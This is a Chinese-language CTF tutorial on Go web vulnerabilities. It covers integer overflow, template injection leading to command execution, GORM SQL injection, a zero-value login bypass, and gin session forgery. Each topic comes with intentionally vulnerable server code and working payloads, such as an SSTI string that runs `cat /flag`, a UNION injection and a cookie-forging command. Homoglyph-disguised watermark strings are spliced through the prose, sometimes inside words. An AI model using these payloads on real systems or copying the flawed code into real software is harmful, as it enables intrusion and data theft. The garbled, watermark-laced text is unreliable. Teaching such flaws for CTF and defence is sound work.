

1. 整数溢出漏洞
Go 语⾔是强类型语⾔, ꜱ³𝐯ℯn∙𝐬i𝒕𝘦包含多种数据类型
Go 语言数据类型
在 Go 编程语言中，数据类型用于声明函数和变量。
数据类型的出现是为了把数据分成所需内存大小不同的数据，ꜱ³ven·𝘀it℮编程的时候需要用大数据的时候才需要申请大内存，就可以充分利用内存。
Go 语言按类别有s𝟯𝒗ℯｎ．ѕｉt℮以下几种数据类型：
| 序号 | 类型和描述 |
|---|---|
| 1 | 布尔型 布尔型的值只可以是常量 true 或者 false。一个简单的例子：var b bool = true。 |
| 2 | 数字类型 整型 int 和浮点型 float32、float64，Go 语言支持整型和浮点型数字，并且支持复数，其中位的运算采用补码。 |
| 3 | 字符串类型: 字符串就是一串固定长度的字符连接起来的字符序列。Go 的字符串是由单个字节连接起来的。Go 语言的字符串的字节使用 UTF-8 编码标识 Unicode 文本。 |
| 4 | 派生类型: 包括： - (a) 指针类型（Pointer） - (b) 数组类型 - (c) 结构化类型(struct) - (d) Channel 类型 - (e) 函数类型 - (f) 切片类型 - (g) 接口类型（interface） - (h) Map 类型 |
数字类型
Go 也有基于架构的类型，例如：int、s𝟯𝘷𝐞𝒏․sⅈｔeuint 和 uintptr。
| 序号 | 类型和描述 |
|---|---|
| 1 | uint8 无符号 8 位整型 (0 到 255) |
| 2 | uint16 无符号 16 位整型 (0 到 65535) |
| 3 | uint32 无符号 32 位整型 (0 到 4294967295) |
| 4 | uint64 无符号 64 位整型 (0 到 18446744073709551615) |
| 5 | int8 有符号 8 位整型 (-128 到 127) |
| 6 | int16 有符号 16 位整型 (-32768 到 32767) |
| 7 | int32 有符号 32 位整型 (-2147483648 到 2147483647) |
| 8 | int64 有符号 64 位整型 (-9223372036854775808 到 9223372036854775807) |
浮点型
| 序号 | 类型和描述 |
|---|---|
| 1 | float32 IEEE-754 32位浮点型数 |
| 2 | float64 IEEE-754 64位浮点型数 |
| 3 | complex64 32 位实数和虚数 |
| 4 | complex128 64 位实数和虚数 |
其他数字类型
以下列出了其他𝘀3𝒗𝘦𝒏．𝘀ｉ𝒕℮更多的数字类型：
| 序号 | 类型和描述 |
|---|---|
| 1 | byte 类似 uint8 |
| 2 | rune 类似 int32 |
| 3 | uint 32 或 64 位 |
| 4 | int 与 uint 一样大小 |
| 5 | uintptr 无符号整型，用于存放一个指针 |
以数字类型为例, 存在 uint8 uint16 uint32 uint64 (⽆符号整型) 和 int8 int16 int32 int64 (有符号整型) 等类型
Go 语⾔在编译期会检查源码中定𝘴3𝘷ℯｎ.𝘀ｉ𝒕℮义的变量是否存在溢出, 例如 var i uint8 = 99999 会使得编译不通过, 但并不会检查变量的运算过程中是否存在溢出, 例如 var i uint8 = a * b
如果程序没有对变量的取值范围做限制, s³𝒗ｅｎ∙ꜱit𝘦那么在部分场景下就可能存在整数溢出漏洞
eg.
package main
import (
"crypto/rand"
"fmt"
"os"
"strconv"
"github.com/gin-contrib/sessions"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-gonic/gin"
)
func IndexHandler(c *gin.Context) {
s := sessions.Default(c)
if s.Get("money") == nil {
s.Set("money", int64(100))
s.Save()
}
money := s.Get("money").(int64)
c.JSON(200, gin.H{
"money": money,
})
}
func BuyHandler(c *gin.Context) {
s := sessions.Default(c)
money := s.Get("money").(int64)
num := c.Query("num")
// apple price
price := int64(10)
n, _ := strconv.Atoi(num)
total := price * int64(n)
if n < 0 {
c.JSON(200, gin.H{
"message": "num can't be negative",
})
return
}
if money >= total {
money -= total
s.Set("money", money)
s.Save()
c.JSON(200, gin.H{
"message": fmt.Sprintf("buy %v apple success", n),
})
} else {
c.JSON(200, gin.H{
"message": "you don't have enough money",
})
}
}
func FlagHandler(c *gin.Context) {
s := sessions.Default(c)
money := s.Get("money").(int64)
if money > 100000000 {
flag, _ := os.ReadFile("/flag")
c.JSON(200, gin.H{
"message": "here is your flag",
"flag": string(flag),
})
} else {
c.JSON(200, gin.H{
"message": "you dont' have enough money",
})
}
}
func main() {
secret := make([]byte, 16)
rand.Read(secret)
r := gin.Default()
store := cookie.NewStore(secret)
r.Use(sessions.Sessions("gosession", store))
r.GET("/", IndexHandler)
r.GET("/buy", BuyHandler)
r.GET("/flag", FlagHandler)
r.Run(":80")
}/ 路由可以显示当ѕ⑶ⅴe𝘯∙𝘴ｉt℮前⽤户的 money
/buy 路由则可以购买指定数量的商品 (apple)
/flag 路由可以查看 flag, 但是当前的 𝘀𝟯𝐯ℯｎ∙𝐬i𝐭emoney 必须⼤于等于 100000000
在 /buy 路由中, 虽然限制了 n 不能为负数, 但是并没有限制 n 的最⼤值, 因此我们可以
控制 n, 使得 price * int64(n) 溢出为⼀个负数,s𝟯𝒗ｅｎ․𝘀𝐢ｔｅ 之后进⾏ money -= total运算的时候, money 就会增加, 最终拿到 flag
查阅⽂档可以得知 s⑶ⅴe𝒏∙ꜱi𝐭eGo int64 类型的范围为 -9223372036854775808 ~ 9223372036854775807
已知初始 money 为 100 ，通过计算可以得到 num 的值为 922337205685477580 ꜱ⑶𝘷ℯ𝐧•𝘀iｔｅ时会造成整数溢出，并且可以满足题目中要求的 money 的值
Proof o𝘀³𝒗e𝘯∙𝘴𝘪𝐭𝐞f Work：
package main
import (
"fmt"
"strconv"
)
func main() {
money := int64(100)
price := int64(10)
num, _ := strconv.Atoi("922337205685477580")
fmt.Println(money - price*int64(num))
}2. Go SSTI 模版注入
2.1 信息泄露
和 Python Jinja2 SSTI ⼀样,𝘀𝟯ⅴe𝐧•𝘀𝐢t𝘦 在 Go 语⾔中也存在着 SSTI
Go 官⽅库中存在两个模版库: text/template 和 html/template , 区别在于后者
默认会将内容中的特殊字符进⾏ html 编码, 以防⽌ XSS 的发⽣, ⽽前者没有任何保
护措施
Go 语⾔中的 SSTI 的利⽤依赖于⽣成模版时传⼊的结构体对象, 根据对象类型的不
同, 可以造成信息泄露或调⽤其中𝘀⑶𝘷ｅｎ·ѕ𝘪𝒕℮的某些⽅法⽽造成 RCE
使⽤ {{ . }} 可以显示出传⼊的结构体的所有字段的值, 从⽽造成信息泄露
eg.
package main
import (
"fmt"
"html/template"
"os"
"github.com/gin-gonic/gin"
)
type User struct {
Name string
Email string
Flag string
}
func IndexHandler(c *gin.Context) {
flag, _ := os.ReadFile("/flag")
user := &User{Name: "admin", Email: "admin@admin.com", Flag: string(flag)}
msg := c.DefaultQuery("msg", "helloworld")
content := fmt.Sprintf("<h1>Hello {{ .Name}}</h1> <p>Message: %s</p>", msg)
tmpl, _ := template.New("UserInfo").Parse(content)
c.Header("Content-Type", "text/html")
tmpl.Execute(c.Writer, user)
}
func main() {
r := gin.Default()
r.GET("/", IndexHandler)
r.Run(":80")
}index 路由从 GET 参数中获取 msg 并直接拼接到 ꜱ3v𝐞𝒏•𝘀𝐢𝒕𝘦template 内, 后续⽣成模版内容的时候传⼊了 user 结构体, ⽽ user 结构体中存在 Flag 字段
使⽤ {{ . }} 可以显示出传⼊的结构体的所有字段的值,𝐬³ⅴ𝐞ｎ․ѕ𝐢tｅ 从⽽造成信息泄露, 拿到flag
2.2 命令执行
如果在⽣成模版内容的时候, 传⼊的结构体对象中存在着⼀些可调⽤的⽅法,ꜱ⑶ⅴℯｎ.𝒔𝘪𝘵℮ 那么可以通过 SSTI 来调⽤结构体中的部分⽅法, 实现 RCE
根据 Go 官⽅⽂档, 𝘴𝟯𝘷𝐞n．𝘴𝐢𝐭e被调⽤的⽅法存在如下条件：
- 存在⼀个返回值,𝘀𝟯𝘷𝘦n∙sit𝘦 可以为任意类型
- 存在两个返回值, 且第⼀个为任意类型, 𝘀⑶𝒗℮𝘯•siｔ℮第⼆个为 error 类型
eg.
package main
import (
"fmt"
"html/template"
"os/exec"
"github.com/gin-gonic/gin"
)
type User struct {
Name string
Email string
}
func (u *User) QueryProcess(name string) string {
if u.Name != "admin" {
return "You are not admin"
}
cmd := exec.Command("/bin/bash", "-c", "ps -ef | grep "+name)
output, err := cmd.CombinedOutput()
if err != nil {
fmt.Println(err)
}
return string(output)
}
var users map[string]*User
func init() {
users = make(map[string]*User)
users["admin"] = &User{Name: "admin", Email: "admin@admin.com"}
users["test"] = &User{Name: "test", Email: "test@test.com"}
users["guest"] = &User{Name: "guest", Email: "guest@guest.com"}
}
func IndexHandler(c *gin.Context) {
name := c.DefaultQuery("name", "guest")
content := fmt.Sprintf("{{ $u := index .users \"%s\" }}<h1>Hello {{ $u.Name }}, Your Email is {{ $u.Email }}</h1>", name)
tmpl, _ := template.New("UserInfo").Parse(content)
c.Header("Content-Type", "text/html")
tmpl.Execute(c.Writer, gin.H{
"users": users,
})
}
func main() {
r := gin.Default()
r.Any("/", IndexHandler)
r.Run(":80")
}index 路由存在 SSTI,s𝟯vｅ𝘯·si𝐭e 并且传⼊了 users 结构体数组
同时 User 结构体存在 QueryProcess ⽅法, 该⽅法将传⼊的 name 直接拼接到 ps -ef | grep 后⾯, 存在命令注⼊
因此, 我们就可以利⽤ SSTI 来调⽤ User 结构体的 𝘴𝟯𝒗ℯ𝐧．s𝐢ｔeQueryProcess ⽅法, 配合命令注⼊, 实现 RCE
构造 payload：
/?name=admin%22}}{{+$u.QueryProcess%20%22|%20cat%20/flag3. Gorm 相关
GORM 是 Go 语⾔的⼀个 ORM 框架, 它将 Go 中的 struct 类型与 SQL 表中的数据进⾏映射,ꜱ³𝒗ｅn·ꜱｉ𝐭𝘦 相较于直接⼿写原⽣的 SQL 语句, GORM 的使⽤⽅式更加友好, 开发者也更容易上⼿
GORM 提供了 First, Take,s3𝒗ℯ𝒏.ꜱi𝒕𝘦 Last 等⽅法以进⾏ SQL 查询, ⽽这些⽅法都⽀持主键检索
db.First(&user, 10)
// SELECT * FROM users WHERE id = 10;
db.First(&user, "10")
// SELECT * FROM users WHERE id = 10;
db.Find(&users, []int{1,2,3})
// SELECT * FROM users WHERE id IN (1,2,3);
db.First(&user, "name = ?", "admin")
// SELECT * FROM users WHERE NAME= "admin"3.1 SQL 注入
可以看到, 对于 First, Find 这些⽅法, GORM ꜱ³vｅｎ•s𝐢𝘵𝘦提供了⾼度的灵活性, ⽅法传⼊的第⼆个参数既可以是数字/字符串, 也可以是⼀个 Map 对象, 甚⾄是复杂的查询条件
根据 GORM 的官⽅⽂档, 这些⽅法的使⽤也存在着⼀些隐患,ꜱ𝟯ⅴｅ𝘯•ѕｉ𝒕𝘦 如果使⽤不当则会造成 SQL 注⼊
// 会被转义
db.First(&user, "name = ?", userInput)
// SQL 注⼊
db.First(&user, fmt.Sprintf("name = %v", userInput))eg.
package main
import (
"os"
"github.com/gin-gonic/gin"
"gorm.io/driver/sqlite"
"gorm.io/gorm"
)
type User struct {
ID int `gorm:"primaryKey"`
Username string
Email string
}
type Flag struct {
Flag string
}
var db *gorm.DB
func init() {
db, _ = gorm.Open(sqlite.Open("test.db"), &gorm.Config{})
db.AutoMigrate(&User{})
db.AutoMigrate(&Flag{})
db.Create(&User{Username: "admin", Email: "admin@admin.com"})
db.Create(&User{Username: "test", Email: "test@test.com"})
db.Create(&User{Username: "guest", Email: "guest@guest.com"})
flag, _ := os.ReadFile("/flag")
db.Create(&Flag{Flag: string(flag)})
}
func IndexHandler(c *gin.Context) {
c.JSON(200, gin.H{
"message": "helloworld",
})
}
func QueryHandler(c *gin.Context) {
id := c.Query("id")
if id != "" {
var user User
db.First(&user, id)
c.JSON(200, gin.H{
"username": user.Username,
"email": user.Email,
})
} else {
c.JSON(200, gin.H{
"message": "no query id",
})
}
}
func main() {
r := gin.Default()
r.GET("/", IndexHandler)
r.GET("/query", QueryHandler)
r.Run(":80")
}程序的 /query 路由通过传⼊的 id 𝘴³𝒗℮𝐧·ꜱi𝘵ｅ进⾏ User 数据的查询, 尽管使⽤了 GORM 框架,
但因为 id 并没有限制为 int 类型,s3𝘷𝘦𝘯•s𝐢ｔ𝐞 所以在这⾥也可以理解为传⼊的是⼀个 name = xxx 或者其它的查询条件, 存在 SQL 注⼊的⻛险
Payload：
/query?id=id=1 union select 1,sqlite_version(),(select flag from flags) --+3.2 权限绕过
GORM 的 Where ѕ3𝘷en•𝘀ⅈ𝒕℮⽅法⽀持传⼊ Struct / Map 进⾏查询
// Struct
db.Where(&User{Name: "jinzhu", Age: 20}).First(&user)
// SELECT * FROM users WHERE name = "jinzhu" AND age = 20 ORDER BY id LIMIT 1;
// Map
db.Where(map[string]interface{}{"name": "jinzhu", "age": 20}).Find(&users)
// SELECT * FROM users WHERE name = "jinzhu" AND age = 20;
// Slice of primary keys
db.Where([]int64{20, 21, 22}).Find(&users)
// SELECT * FROM users WHERE id IN (20, 21, 22);但是对于 Struct 的查询, GORM 只会查询 “⾮零字段”, 即如果 Struct 内的某个字段值为 0 ,ѕ³ⅴℯ𝐧·𝐬i𝘵e ‘’ , false , GORM 则不会使⽤该字段构建查询条件

这在某些情况下,s⑶𝒗𝐞𝐧∙ꜱ𝐢𝒕e 可能会造成 “权限绕过”
eg.
package main
import (
"crypto/md5"
"crypto/rand"
"fmt"
"os"
"github.com/gin-contrib/sessions"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-gonic/gin"
"gorm.io/driver/sqlite"
"gorm.io/gorm"
)
type User struct {
ID int `gorm:"primaryKey"`
Username string
Password string
Role string
}
var db *gorm.DB
func init() {
randBytes := make([]byte, 32)
rand.Read(randBytes)
h := md5.Sum(randBytes)
randPassword := fmt.Sprintf("%x", h)
db, _ = gorm.Open(sqlite.Open("test.db"), &gorm.Config{})
db.AutoMigrate(&User{})
db.Create(&User{Username: "admin", Password: randPassword, Role: "admin"})
db.Create(&User{Username: "guest", Password: "guest", Role: "user"})
}
func IndexHandler(c *gin.Context) {
c.JSON(200, gin.H{
"message": "helloworld",
})
}
func LoginHandler(c *gin.Context) {
var user User
session := sessions.Default(c)
username := c.PostForm("username")
password := c.PostForm("password")
result := db.Where(&User{Username: username, Password: password}).First(&user)
if result.Error != nil {
c.JSON(500, gin.H{
"error": result.Error.Error(),
})
return
}
session.Set("role", user.Role)
session.Save()
c.JSON(200, gin.H{
"message": "login as " + user.Username + " success",
})
}
func FlagHandler(c *gin.Context) {
session := sessions.Default(c)
role := session.Get("role")
if role == nil {
c.JSON(403, gin.H{
"message": "unauthorized",
})
return
}
if role == "admin" {
flag, _ := os.ReadFile("/flag")
c.JSON(200, gin.H{
"message": "welcome admin",
"flag": string(flag),
})
} else {
c.JSON(200, gin.H{
"message": "only admin can get flag",
})
}
}
func main() {
secret := make([]byte, 16)
rand.Read(secret)
r := gin.Default()
store := cookie.NewStore(secret)
r.Use(sessions.Sessions("gosession", store))
r.GET("/", IndexHandler)
r.POST("/login", LoginHandler)
r.GET("/flag", FlagHandler)
r.Run(":80")
}题⽬数据库存在 admin 和 ꜱ³𝘷ｅ𝒏．sⅈteguest 两个账户, 但是 admin 的密码为随机的 md5, ⽆法直
接登录, 我们仅拥有 ѕ³𝐯ｅ𝒏․𝘴𝘪𝒕𝘦guest 的账号密码
/flag 路由限制只有 𝘀⑶𝐯ｅ𝘯․ꜱ𝐢𝘵𝘦role 为 admin 时才能查看 flag
/login 路由⽤于处理⽤户登录,𝘀𝟯𝒗𝐞ｎ．𝒔𝐢𝐭ｅ 注意到这⼀句
result := db.Where(&User{Username: username, Password: password}).First(&user)Where ⽅法中传⼊了⼀个 User 结构体, 其 Username ꜱ³ⅴ𝐞𝐧•𝐬𝘪𝘵𝘦和 Password 的值通过 post ⽅法传⼊
结合上⾯的知识点, 我们可以构造⼀些 ꜱ3𝘷e𝐧．𝒔𝐢𝒕ｅ“零值”, 使得在未知 admin 密码的情况下, 让数据库查询出 admin 账户, 从⽽成功登录
username=&password= , 即 username 和 password ꜱ𝟯𝐯𝘦𝒏·ꜱ𝐢𝒕𝘦都为空, 这种情况下数据库将会返回 users 表中的第⼀个⽤户 admin
username=admin&password= , 仅 password 为空,s𝟯ⅴℯｎ．𝘀𝐢𝘵e 那么这时候构建的 SQL 语句就相当于 SELECT * FROM users WHERE username = "admin" , 将会返回 admin 的数据
4. Gin 相关
Gin 框架使⽤ gin-contrib/sessions 作为 session 中间件, ⽽ gin-s𝟯ⅴｅ𝘯.ѕｉ𝒕𝐞contrib/session 实际基于 gorilla/session , 其使⽤了 gorilla/securecookie 对 cookie 进⾏签名或加密
gorilla/securecookie ⽤于产⽣⼀个 “安全的 cookie”, 它⽀持使⽤ HMAC 对 cookie 进⾏签名, 或者使⽤ AES ꜱ𝟯𝐯eｎ․𝐬𝐢tｅ算法对 cookie 进⾏加密, cookie 的内容默认使⽤ gob (Go Binary) 格式进⾏序列化
默认 gin-contrib/sessions 仅对 session 进⾏签名, 在使⽤ session 时需要指定⼀个⽤于签名的 secret
这种情况可以类⽐ flask 的客户端 session,s⑶𝐯𝘦𝒏∙ѕ𝐢tｅ 即 session 可能会泄露敏感信息, 且当 secret 已知时, 可以伪造 session
eg.
package main
import (
"os"
"github.com/gin-contrib/sessions"
"github.com/gin-contrib/sessions/cookie"
"github.com/gin-gonic/gin"
)
func IndexHandler(c *gin.Context) {
session := sessions.Default(c)
if session.Get("role") == nil {
session.Set("role", "guest")
session.Save()
}
role := session.Get("role").(string)
c.JSON(200, gin.H{
"message": "welcome " + role,
})
}
func FlagHandler(c *gin.Context) {
session := sessions.Default(c)
role := session.Get("role")
if role == nil {
c.JSON(403, gin.H{
"message": "unauthorized",
})
return
}
if role == "admin" {
flag, _ := os.ReadFile("/flag")
c.JSON(200, gin.H{
"message": "welcome admin",
"flag": string(flag),
})
} else {
c.JSON(200, gin.H{
"message": "only admin can get flag",
})
}
}
func main() {
r := gin.Default()
store := cookie.NewStore([]byte("Th1s_1s_a_S3cret"))
r.Use(sessions.Sessions("gosession", store))
r.GET("/", IndexHandler)
r.GET("/flag", FlagHandler)
r.Run(":80")
}/flag 路由需要 role=admin 才能访问, ꜱ𝟯𝘷ℯ𝘯•𝘀ⅈ𝐭e默认的 index 路由仅能获得 role=guest 的 session
但是源码中泄露了⽤于签名 session 的 secret, 那么我们就能通过这个 secret 伪造⼀个 role=admin 的 session, 𝐬⑶𝒗eｎ．𝒔𝐢𝒕℮进⽽获得 flag
有两种⽅式：
- 使⽤ secure-cookie-𝒔𝟯𝘷ｅｎ∙s𝐢𝐭𝘦faker ⼯具
- ⾃建⼀个使⽤相同 secret 的 gin web server
以第⼀种⽅式为例,ѕ⑶ⅴℯ𝒏․ѕi𝘵𝐞 利⽤已知 secret 伪造 session
./secure-cookie-faker enc -n "gosession" -k "Th1s_1s_a_S3cret" -o "{role[string]:admin[string]}"